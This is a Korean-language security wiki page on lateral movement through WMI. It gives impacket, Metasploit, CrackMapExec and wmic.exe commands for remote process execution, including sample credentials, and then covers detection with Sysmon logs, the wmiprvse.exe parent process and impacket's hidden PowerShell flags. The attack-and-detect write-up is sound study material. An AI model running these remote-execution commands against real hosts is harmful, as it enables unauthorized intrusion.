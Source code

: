 # WMI

WMI (Windows Management Instrumentation)은 1996년 개발된 윈도우 드라이버 모델이다. 주 목적은 다양한 관리 어플리케이션들의 데이터 공유를 위한 인터페이스를 제공하는 것이였다.

보안적인 측면에서, 그리고 최근에는 원격 시스템의 코드 실행 및 프로세스 실행을 위해서 많이 쓰인다. 원격 시스템에 처음 접근 할 때는 포트 135를 사용하지만 그 이후에는 높은 번호의 ephemeral 포트가 사용된다.

### 전제 조건

* 타겟 호스트의 로컬 관리자 권한을 갖고 있는 계정/비밀번호/NTLM해시
* 타겟 호스트의 포트 135 접근 가능 여부

### 공격

{% tabs %}
{% tab title="리눅스" %}
impacket이나 Metasploit등을 이용한다

```
# impacket 
impacket-wmiexec '<domain>/<user>:<pass>@<FQDN/IP> -shell-type powershell 
impacket-wmiexec 'pci.choi.local/low:Password123!'@192.168.40.161 -shell-type powershell

# Metasploit 
use auxiliary/scanner/smb/impacket/wmiexec

# CrackMapexec 
cme smb <target> -u <user> -p <pass> -d <domain> --exec-method wmiexec -X whoami
cme smb 192.168.40.150 -u Administrator -p 'Password123!' --exec-method wmiexec -X whoami
```
{% endtab %}

{% tab title="윈도우" %}
따로 툴을 이용할 필요 없이 윈도우에서 제공하는 `wmic.exe` 을 이용한다.

```
WMIC.exe /node:<ip> /user:<user> process call create "<process>"

WMIC.exe /node:192.168.40.160 /user:Administrator process call create "notepad.exe"
```
{% endtab %}
{% endtabs %}

### 대응 방안

공격자가 사용하는 툴 마다 WMI의 적용방법이 다르지만, 공통적으로 나타나는 현상에 집중한다. 윈도우 호스트에서 직접 `wmic.exe` 프로세스를 이용하건, 리눅스에서 impacket을 이용해 wmiexec.py를 이용하건, 공통적으로 WMI를 이용하는 툴들은 모두 `WmiPrvSE.exe` 라는 프로세스에서 시작된다.

![WmiPrvSe.exe에서 시작된 cmd.exe와 powershell.exe 프로세스 체인](<../.gitbook/assets/image (30).png>)

`eventvwr.exe` 를 실행 한 뒤 시스몬 로그들을 확인해보면 공격자가 WMI로 접근을 한 뒤, 첫 명령어를 치자마자 시스몬 아이디 1 - Process Create가 로그된 것을 볼 수 있다.

![](../.gitbook/assets/wmi.png)

눈여겨 볼 것은 부모 프로세스로 `wmiprvse.exe` 프로세스가 실행됐다는 것, 그리고 커맨드라인이 심상치 않다는 점이다. base64를 디코딩 해보면

```
$ProgressPreference="SilentlyContinue";whoami
```

가 나온다. 앞의 플래그들 또한 `-NoP (노 프로필), -noL (노 로고), -sta (싱글 쓰레드 아파트먼트), -NonI (노 인터렉티브), -W (윈도우 - Hidden)` 등의 악성코드가 자주 사용하는 플래그들이 보인다.

따라서 WMI 횡적이동을 탐지하고 대응하기 위해선 다음과 같은 로직들이 필요하다.

1. 포트 135 접근 이후 ephemeral 포트로 접근하며
2. 타겟 호스트의 로컬 관리자 권한이 있는 유저가
3. 부모 프로세스는 `wmiprvse.exe`, 자식 프로세스는 `cmd.exe` 혹은 `powershell.exe` 을 생성하며
4. 최종 실행되는 커맨드라인에 수상한 플래그들이 들어가 있을 경우

### 대응 방안 - 주의점

WMI 또한 툴 마다 구현이 다르기 때문에 특정 플래그를 하드코딩해 탐지/대응 하는 것은 옳지 않다. 예를 들어 위 로그의 최종 커맨드 라인인 `cmd.exe /Q /c powershell.exe -NoP -NoL -sta -NonI -W Hidden -Exec Bypass -Enc` 은 impacket에 [하드코딩 된 플래그](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py#L127-L129)들이다.

```
self.__shell = 'cmd.exe /Q /c '
self.__shell_type = shell_type
self.__pwsh = 'powershell.exe -NoP -NoL -sta -NonI -W Hidden -Exec Bypass -Enc '
```

공격자들은 언제나 이런 하드코딩 된 플래그를 바꿀 수 있고, impacket이 아닌 다른 툴들은 다르게 WMI를 구현할 수 있기 때문에 하드코딩 기반의 탐지/대응 방안은 1개의 툴은 막더라도 다른 툴들은 못 막을 수 있으니 이 점을 유의한다.

### 레퍼런스

{% embed url="https://www.elastic.co/guide/en/security/current/wmi-incoming-lateral-movement.html" %}

{% embed url="https://riccardoancarani.github.io/2020-05-10-hunting-for-impacket/#wmiexecpy" %}
